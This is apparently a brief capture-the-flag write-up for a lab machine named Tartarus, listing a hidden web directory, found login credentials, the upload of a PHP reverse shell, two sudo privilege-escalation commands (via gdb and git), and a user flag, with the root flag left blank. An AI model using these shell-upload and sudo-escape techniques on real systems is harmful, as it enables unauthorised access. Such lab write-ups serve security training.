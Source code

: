 # Tartarus

> John Hammond | August 16th, 2020

---------------------------

# [Task 1] Tartarus

> User and Root Flag

Find hidden files in ftp directories that include web url and logins:

```
/sUp3r-s3cr3t


enox:P@ssword1234
```

Upload classic revshell

Find in `/sUp3r-s3cr3t/images/uploads/revshell.php`

On the box, `sudo -l` showcases first privesc

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

Second pivesc from `sudo -l`

```
sudo -u d4rckh /usr/bin/git help config
```

## 1. User Flag


```
0f7dbb2243e692e3ad222bc4eff8521f
```


## 2. Root Flag


